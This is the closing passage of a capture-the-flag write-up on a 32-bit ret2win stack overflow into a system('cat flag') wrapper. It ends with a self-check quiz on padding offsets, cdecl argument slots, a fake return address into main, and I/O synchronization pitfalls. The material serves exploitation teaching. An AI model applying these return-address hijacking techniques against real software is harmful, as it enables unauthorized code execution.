- **No canary + No PIE + a ready-made `system()` wrapper** is a deliberately "pure" ret2win setup: every protection that would complicate a straightforward return-address overwrite (stack canary, address randomization of the binary itself) is turned off, isolating the lesson to stack-frame mechanics and the cdecl calling convention for a one-argument function call — exactly the next logical step after a no-argument `ret2win` (like `jarvisoj_level0`) and before a full ROP chain (like `get_started_3dsctf_2016`).
- **The missing newline on `"> "` and the use of `printf` instead of `puts` for it** looks almost incidental, but it's a good, realistic trap for anyone relying on naive `recvuntil`-based synchronization — a useful, if perhaps unintentional, lesson in stdio buffering behavior under pipes vs. TTYs.

---

## Quiz — Self-Check

1. Why does `memset(buf, 0, 11)` *not* function as a safety bound on how much data `scanf("%s", buf)` can write into `buf`?

2. The padding to reach the return address was computed as `0x13 + 4 = 23` bytes. In general terms (not just for this binary), what two components make up this formula, and under what condition (stated in general, not specific to this challenge) would the `+4` term be dropped entirely?

3. Why does a `ret`-hijack into a function that expects one cdecl argument require writing *two* extra 4-byte values after the hijacked return address, rather than just one (the argument itself)?

4. Explain, in your own words, why `p.recvuntil(b'> ')` hung indefinitely even though the program was genuinely sitting at the `scanf` call waiting for our input.

5. `fake_ret` was first set to `0x43434343` (junk), which caused `win_func`'s own `ret` to crash with SIGSEGV. On your local machine this didn't prevent you from eventually diagnosing the real issue, but on the remote server it caused the *entire* exploit's output to vanish. What specific behavior of the remote service's `timeout`-based process supervision caused this, and why didn't the same failure occur locally?

6. Why was returning into `main()` (`0x08048677`) chosen as the fix for `fake_ret`, rather than, say, an address of `exit()` or some arbitrary valid-looking address? What property does the chosen address need to have, at minimum, for the fix to work?

7. The binary leaks the address of the string `"cat flag"` via a global variable (`hint`) printed with `"0x%x \n"`. Suppose this leak did *not* exist in the binary. Given that the binary has No PIE, would this leak have been strictly necessary to build the same exploit? Justify your answer.

8. We determined that getting an interactive shell (rather than just running `cat flag`) is *not* straightforward with this binary. List the three potential avenues that were considered (a pre-existing `/bin/sh`-like string, a write-primitive to plant one, and placing one on the stack ourselves) and briefly state, for each, exactly what resource this binary is missing that would be required to make it work.

9. Section 9 describes replacing `win_func`'s address with `system@plt` directly in the payload. Explain why this substitution is valid here — i.e., what specific property of `win_func`'s disassembly makes it safe to skip, and what would have to be true of a "win" function for this *not* to work (give a concrete example of what a win function could do that would make this shortcut invalid)?

10. Both the direct-`system@plt` approach and the original `win_func` approach still need the same two trailing 4-byte stack slots (a fake return address and an argument) after the hijacked address. Why does removing the `win_func` indirection not also remove the need for those two slots?

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
